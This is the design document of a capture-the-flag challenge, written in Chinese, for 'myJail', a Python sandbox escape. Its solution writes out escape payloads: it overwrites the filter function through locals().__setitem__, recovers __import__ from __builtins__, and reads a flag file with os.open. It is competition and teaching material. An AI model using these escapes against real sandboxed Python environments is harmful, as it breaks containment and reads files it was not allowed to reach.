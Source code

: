 # 赛题设计说明

## 题目信息

- 题目名称：myJail
- 预估难度：中等

## 题目描述

小J喜欢变魔术，但是这次小J不小心把自己困住了，救救小J。

## 考点

1. python魔术方法
2. python locals()修改函数对象

## 出题思路与解题思路

### 出题思路
pyjail题，通过利用__setitem__魔术方法，绕过过滤。
### 解题思路
首先先修改过滤函数。
~~~
locals().__setitem__("my_filter",str)
~~~
由于`__import__`被覆盖了，所以要去`builtins`里面找`__import__`
~~~
print(__builtins__.__import__("os").listdir('/'))
~~~
可以恢复`__import__`
~~~
locals().__setitem__('__import__',__builtins__.__import__)
~~~

借用其他的变量来缩短payload
~~~
locals().__setitem__('dir',__import__("os"))
~~~
利用`os.open`来读文件
~~~
print(dir.read(dir.open("/FlAg_1s_H3re",0),100))
~~~

获得之后读取文件即可
## 提示

1. 可不可以改函数呢

## 参考

2023强网杯pyjail
